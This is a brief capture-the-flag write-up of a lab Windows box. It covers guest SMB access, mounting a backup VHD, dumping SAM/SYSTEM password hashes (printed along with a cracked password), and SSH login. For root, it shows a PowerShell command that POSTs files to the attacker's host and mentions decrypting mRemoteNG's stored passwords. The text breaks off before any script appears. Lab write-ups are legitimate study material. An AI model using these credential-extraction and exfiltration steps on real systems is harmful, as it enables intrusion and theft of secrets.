 ![](./logo.png)

Scanning the box gives us a `smb` share with guest access.

Running:

```
smbclient.py guest@10.10.10.134
```

There is a `Backups` share that allows us access to a `.vhd` file.

I'm going to investigate with the tool `guestfs`. This allows me to mount the `.vhd` file locally and investigate.

This was okay to mount the small `.vhd` file, but downloading the ~5GB is an issue. In end downloading the large VHD was the option taken.

On the VHD file is the `SAM` and `SYSTEM` hives. These can be downloaded and the hashes of the users can be extracted.

Running `pwdump.py` gives us:

```
$ ./pwdump.py SYSTEM SAM

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
```

Cracking the hash for L4mpje gives use the password:

```
L4mpje
bureaulampje
```

This lets us login via `ssh` and grab the `user.txt`!

# ROOT

Found a non-standard tool called `mRemoteNG`

With some research I've found out that `mRemote` saves files in an incsure way within the `confCons.xml` file.


Running this command below to extract the file

```
powershell Invoke-WebRequest -Uri http://10.10.14.55:8080 -Method Post -Infile *
```

Reading the link [here](http://hackersvanguard.com/mremoteng-insecure-password-storage/) it states that the passwords are only encrypted using a static string!

We can write a quick python script to fuck shit up. 
